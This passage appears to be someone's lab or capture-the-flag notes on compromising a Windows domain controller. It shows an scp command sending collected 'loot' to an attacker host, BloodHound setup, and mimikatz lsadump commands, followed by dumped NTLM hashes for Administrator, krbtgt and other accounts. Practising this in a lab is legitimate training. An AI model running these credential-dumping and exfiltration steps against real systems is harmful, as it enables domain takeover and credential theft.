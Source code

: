 `scp .\20211119152332_loot.zip nair0lf32@10.8.226.203:/home/nair0lf32/loot.zip`

start neo4j `sudo neo4j console` or `sudo neo4j start`
then `bloodhound`

after login deploy hamurger menu and 'analysis'

## Mimikatz

Exit powershell with `exit`
Go where it is and run mimikatz
`cd Downloads && mimikatz.exe`
`privilege::debug`
Should be `Privilege '20' OK`

Then we dump hashes

`lsadump::lsa /patch`

```powershell
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6
```